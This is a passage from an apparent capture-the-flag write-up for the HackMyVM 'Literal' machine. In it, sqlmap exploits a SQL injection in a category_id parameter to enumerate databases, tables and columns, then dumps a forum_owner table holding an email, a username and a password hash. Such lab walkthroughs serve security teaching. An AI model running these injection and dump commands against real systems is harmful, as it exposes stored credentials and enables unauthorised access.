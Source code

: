 We can see that the category_id parameter is also vulnerable to SQLi. We can leverage this vulnerability to enumerate this DBMS instance.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]
└─$ sqlmap -u 'http://forumtesting.literal.hmv/category.php?category_id=1' --dbs --batch
<SNIP>
available databases [3]:
[*] forumtesting
[*] information_schema
[*] performance_schema
<SNIP>
[*] ending @ 20:19:19 /2024-09-30/

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]            
└─$ sqlmap -u 'http://forumtesting.literal.hmv/category.php?category_id=1' -D forumtesting --tables --batch 
<SNIP>
Database: forumtesting
[5 tables]
+----------------+
| forum_category |
| forum_owner    |
| forum_posts    |
| forum_topics   |
| forum_users    |
+----------------+
<SNIP>
[*] ending @ 20:26:14 /2024-09-30/

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]
└─$ sqlmap -u 'http://forumtesting.literal.hmv/category.php?category_id=1' -D forumtesting -T forum_owner --columns  --batch
<SNIP>
[20:34:29] [INFO] retrieved: varchar(100)
Database: forumtesting
Table: forum_owner
[5 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| created  | date         |
| email    | varchar(100) |
| id       | int          |
| password | varchar(200) |
| username | varchar(100) |
+----------+--------------+
<SNIP>
[*] ending @ 20:35:36 /2024-09-30/

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]
└─$ sqlmap -u 'http://forumtesting.literal.hmv/category.php?category_id=1' -D forumtesting -T forum_owner -C email,username,password --dump --batch 
<SNIP>
+---------------------------------+----------+----------------------------------------------------------------------------------------------------------------------------------+
| email                           | username | password|
+---------------------------------+----------+----------------------------------------------------------------------------------------------------------------------------------+
| carlos@forumtesting.literal.htb | carlos   | 6705fe62010679f04257358241792b41acba4ea896178a40eb63c743f5317a09faefa2e056486d55e9c05f851b222e6e7c5c1bd22af135157aa9b02201cf4e99 |
+---------------------------------+----------+----------------------------------------------------------------------------------------------------------------------------------+
<SNIP>
[*] ending @ 21:00:21 /2024-09-30/
```